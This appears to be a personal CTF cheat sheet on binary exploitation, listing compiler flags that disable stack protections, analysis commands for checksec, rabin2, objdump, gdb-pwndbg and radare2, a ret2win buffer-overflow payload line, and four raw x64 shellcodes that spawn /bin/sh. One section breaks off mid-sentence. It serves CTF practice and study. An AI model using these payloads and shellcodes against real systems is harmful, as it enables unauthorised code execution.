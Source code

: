 # CTF Tools

## Binary Exploitation

### GCC flags
- `-fno-stack-protector` -> disable canary
- `-no-pie` -> no PIE
- `-m32` -> compiles in 32 bit (i386)
- `-z execstack` -> disable NX and stack is executable now

A nice way to use this is 
```bash
gcc file.c -o vuln -fno-stack-protector -z execstack -no-pie -m32
```

### tmux
- `tmux`
- `ctrl + %, v` -> vertical split
- `ctrl + %, <-/->` -> change to left of right screen

### Know your file
`checksec --file <filename>` or `checksec file=filename

`file <filename>`

`rabin2 -I <filename>`

### Tracing
Checks what the program's doing with the input
`ltrace` and `strace`(for remote servers)
`ltrace ./filename`

### Reading the functions inside
- `info functions`
- `rabin2 -i <filename>`
- `objdump -d ./chal | grep '<.*>:'`
- `objdump -D <filename> | grep <funcitonname>`
- `nm -u <filename>`

USER GENERATED FUNCTIONS:

```bash
rabin2 -qs <filename> | grep -ve imp -e ' 0 '
```

### Strings inside binary
```bash
rabin2 -z <filename>
```

### gdb-pwndbg
(much faster than loading ghidra and doing stuff from there)
- `file <filename>` -> to open the file
- `info functions` -> show all the function names along with their addresses. (you can use this with `objdump -D <filename> | grep <funcitonname>`, which is much better)
- `disassemble main` -> disassemble the main funciton
- `disassemble <functionname>` -> disassemble particular functions

- `cyclic <number>` -> useful for testing when the seg faults
- `r` -> runs the function
- `cyclic -l <EIP-data>` -> lookup the amount of the data that can be inputted where overflow won't occur in little endian
- `python2 -c 'print "A"*28 + "\x82\x91\x04\x08"' > payload` -> 28 is the eip data and then the other code.
- `./ret2win < payload` -> input payload into the file
- instead, you can just send using `run < payload` inside of gdb-pwndbg
- `break *addr` -> add a breakpoint at an addr
- `delete breakpoints` -> delete breakpoints

**IP/EIP/RIP** -> Data where you can go without seg fault (data that can be stored in the variable/line)
**IP/EIP/RIP** -> Stores the address of the next function that must be executed (overflow this)

### python2 (not python3)
```python
python2 -c 'code here'
```

### redare
`r2 filename`
`aa` -> analyze all flags
`afl` -> all functions list

### Overwriting Variables on the Stack
- Replace the

### Shellcodes (NX disabled)
usage:
```python
payload = shellcode + b"A" * (80 - len(shellcode)) + p64(int(buff_addr, 16))
```
`x64` linux `23` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

`x64` linux `24` bytes:
```elixir
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

`x86_64` linux `22` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

`x86_64` linux `27` bytes:
```elixir
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```


### NX enabled
Try using ropper since it might be an ROP attack
